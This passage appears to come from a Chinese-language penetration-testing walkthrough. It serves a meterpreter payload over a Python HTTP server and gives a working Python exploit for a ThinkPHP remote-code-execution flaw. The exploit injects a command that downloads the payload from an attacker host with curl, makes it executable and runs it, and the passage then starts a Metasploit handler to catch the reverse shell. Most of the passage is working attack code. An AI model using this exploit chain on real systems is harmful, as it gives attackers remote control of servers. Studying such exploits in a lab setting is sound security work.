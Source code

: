 >`linux/x64/meterpreter/reverse_tcp` 和 `linux/x64/meterpreter_reverse_tcp` 的区别在于前者是分阶段装载的，后者是完整的 meterpreter。

这里我们启动 http 服务，用于利用成功后下载 meterpreter 执行：
```
$ ls -lah
-rw-rw-r-- 1 ubuntu ubuntu 250 Nov 18 08:55 mt
$ python3 -m http.server 7777
```

我们编写的 python exploit 如下：
```
#!/usr/bin/python3
#coding=utf-8

import requests

if __name__ == "__main__":
    url = "http://10.0.25.211:8080/index.php?s=captcha"
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    
    cmd = "curl 10.0.25.249:7777/mt -o mt; chmod 777 mt; ./mt"
    data = "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=%s" % cmd
    resp = requests.post(url, headers=headers, data=data, timeout=10)
    print(resp.status_code)
    print(resp.text[:512])
```

一切准备就绪后，在 metasploit 中选择 `exploit/multi/handler` 模块，并配置对应的 payload，随后使用 `exploit/run` 启动该模块：
<div align="center">
<img src="images/launch-handler.png" width="500">
</br>[11.启动handler模块]
</div>

